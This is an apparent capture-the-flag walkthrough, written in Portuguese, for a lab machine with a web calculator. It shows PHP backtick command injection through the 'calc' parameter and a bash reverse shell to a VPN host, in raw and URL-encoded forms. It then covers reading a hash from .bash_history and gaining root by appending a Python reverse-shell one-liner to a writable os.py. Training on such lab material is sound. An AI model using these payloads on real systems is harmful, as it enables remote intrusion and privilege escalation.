## Varredura nmap:

Precisamos saber quais serviços estão sendo executados nos bastidores e quais  
portas estão abertas. Então, vamos usar uma ferramenta chamada **nmap.  
Ports:**

**Porta 22 - SSH**

**Porta 80 - HTTP  
Porta 111 - RCPBIND**

Temos uma página web com uma calculadora online, podemos realizar operações  
matemáticas.

Utilizarei o Burp Suite para interceptar a requisição, assim eu consigo ver o que está  
acontecendo por “debaixo dos panos”.

Verificamos que ele está fazendo um POST usando o parâmetro **calc** pra realizar  
as operações, aparentemente deve estar usando alguma função do PHP para fazer
isso, exemplo: a função **eval(** ) do **php** , a função **eval ()** executa uma variável que  
pode modificar o código contido por PHP.  
Aqui podemos tentar **command injection** já que temos controle do parâmetro **calc** ,  
e para isso utilizarei **backticks** , pois o PHP suporta um operador de execução:  
acentos graves **()** 'backticks'. Note que não são aspas simples! O PHP tentará  
executar o conteúdo dentro dos acentos graves como um comando do shell idêntica  
a da função shell_exec().  
Passarei 
```
`id`
```
 para o parâmetro **calc**

E temos RCE no servidor, próximo passo será pegar uma reverse shell.

```
/bin/bash -c 'sh -i >& /dev/tcp/ip-vpn/443 0>&1'
```

**Netcat** para ficar ouvindo em uma porta para nós recebermos nossa conexão  
reversa.

E vamos enviar nossa payload, não podemos de esquecer de fazer um url encode  
da nossa payload, no Burp Suite você pode selecionar a parte que deseja encodar  
utilizando **Ctrl+U**.  
E nossa payload ficará assim:

```
/bin/bash+-c+'sh+-i+>%26+/dev/tcp/ip-vpn/443+0>%261'
```

Após enviar, nós recebemos a conexão 😃

## Shell tty

Atualizando shell simples para TTYs totalmente interativos.

```
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo;fg
Enter
export TERM=xterm
```

### Flag user:

Navegando até a home do usuário **sysadmin** , temos a flag, mas não temos  
permissão de leitura, pois estamos com o usuário **apache**.

Podemos ler o arquivo. **bash_history** do usuário **sysadmin** , lendo o arquivo vejo  
um **hash** (senha), podemos tentar utilizar pra logar na conta do usuário **sysadmin** , e  
fazendo isso, conseguiremos logar na conta.

Agora podemos ler a **flag** =)

### ROOT

**Python Library Hijacking**  
Podemos executar o script **calc.py** com privilégios do usuário root

Podemos ler o conteúdo do arquivo **calc.py** , mas não temos permissão de escrita.  
Podemos ver que ele está importando a biblioteca **os**

Depois de rodar um **linpeas.sh** no host, vejo que temos permissão de escrita na  
biblioteca **os.py**  
Podemos abusar disso, escrevendo uma reverse shell na biblioteca **os** , sendo  
assim quando rodarmos o script com privilégios de root e ele importar a biblioteca  
**os,** nós conseguiremos a shell do usuário root.

Agora vamos editar o arquivo **os.py** e adicionar nossa reverse shell na última linha  
do arquivo.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.17.34",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

**Netcat** para ficar ouvindo em uma porta para nós recebermos nossa conexão  
reversa.

Agora vamos executar o script

```
sudo /usr/bin/python3 /opt/pycalc/calc.py
```

E recebemos a conexão, assim pegamos a nossa **última flag**